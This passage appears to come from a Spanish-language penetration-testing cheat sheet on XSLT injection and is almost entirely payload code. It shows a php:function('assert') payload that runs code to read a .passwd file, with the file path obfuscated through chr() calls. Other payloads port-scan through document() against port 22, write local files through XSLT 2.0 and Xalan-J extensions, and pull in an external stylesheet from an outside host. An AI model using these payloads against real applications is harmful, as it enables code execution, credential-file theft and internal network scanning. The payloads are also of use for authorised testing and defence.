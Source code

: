 ```xml
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(file_get_contents(scandir(chr(46).chr(47))[2].chr(47).chr(46).chr(112).chr(97).chr(115).chr(115).chr(119).chr(100)))==3')" />
<br />
</body>
</html>
```
### Escaneo de puertos
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>
```
## Escribir en un archivo

### XSLT 2.0
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```
### **Extensión Xalan-J**
```xml
<xsl:template match="/">
<redirect:open file="local_file.txt"/>
<redirect:write file="local_file.txt"/> Write Local File</redirect:write>
<redirect:close file="loxal_file.txt"/>
</xsl:template>
```
Otras formas de escribir archivos en el PDF

## Incluir XSL externo
```xml
<xsl:include href="http://extenal.web/external.xsl"/>
```
